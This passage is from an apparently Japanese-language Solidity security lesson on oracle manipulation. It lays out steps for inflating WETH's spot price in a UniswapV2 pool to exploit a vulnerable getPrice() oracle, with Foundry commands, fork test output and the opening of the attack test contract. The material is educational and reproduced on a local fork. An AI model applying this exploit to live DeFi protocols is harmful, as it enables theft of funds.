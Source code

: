 ### 攻撃の考え方

脆弱性のある価格オラクル`getPrice()`関数に対して攻撃を行います。手順：

1. `BUSD`を準備します。自己資金でも、フラッシュローンの借款でも構いません。実装では、Foundryの`deal` cheatcodeを利用してローカルネットワーク上で自分に`1_000_000 BUSD`を鋳造しました。
2. UniswapV2の`WETH-BUSD`プールで`BUSD`を使って大量の`WETH`を購入します。具体的な実装は攻撃コードの`swapBUSDtoWETH()`関数を参照してください。
3. この状況下で、`WETH-BUSD`プール内のトークンペア比率がバランスを失い、`WETH`の瞬時価格が急騰します。この時`swap()`関数を呼び出して`ETH`を`oUSD`に変換します。
4. **オプション：** UniswapV2の`WETH-BUSD`プールで第2ステップで購入した`WETH`を売却し、元本を回収します。

これら4つのステップは1つのトランザクションで完了できます。

### Foundryでの再現

オラクル操作攻撃の再現にはFoundryを選択します。高速で、メインネットのローカルフォークを作成でき、テストに便利だからです。Foundryについて理解していない場合は、[WTF Solidityツール編 T07: Foundry](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)をお読みください。

1. Foundryをインストール後、コマンドラインで以下のコマンドを入力して新プロジェクトを開始し、openzeppelinライブラリをインストールします。
  ```shell
  forge init Oracle
  cd Oracle
  forge install Openzeppelin/openzeppelin-contracts
  ```

2. ルートディレクトリに`.env`環境変数ファイルを作成し、その中にメインネットrpcを追加してローカルテストネットを作成します。

  ```
  MAINNET_RPC_URL= https://rpc.ankr.com/eth
  ```

3. このレッスンのコード、`Oracle.sol`と`Oracle.t.sol`をそれぞれルートディレクトリの`src`と`test`フォルダにコピーし、以下のコマンドで攻撃スクリプトを実行します。

  ```
  forge test -vv --match-test testOracleAttack
  ```

4. ターミナルで攻撃結果を確認できます。攻撃前、オラクル`getPrice()`が与える`ETH`価格は`1216 USD`で正常です。しかし、`1,000,000` BUSDを使ってUniswapV2の`WETH-BUSD`プールで`WETH`を購入した後、オラクルが与える価格は`17,979,841,782,699 USD`に操作されました。この時、`1 ETH`で17兆枚の`oUSD`と簡単に交換でき、攻撃が完了します。
  ```shell
  Running 1 test for test/Oracle.t.sol:OracleTest
  [PASS] testOracleAttack() (gas: 356524)
  Logs:
    1. ETH Price (before attack): 1216
    2. Swap 1,000,000 BUSD to WETH to manipulate the oracle
    3. ETH price (after attack): 17979841782699
    4. Minted 1797984178269 oUSD with 1 ETH (after attack)

  Test result: ok. 1 passed; 0 failed; finished in 262.94ms
  ```

攻撃コード：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
```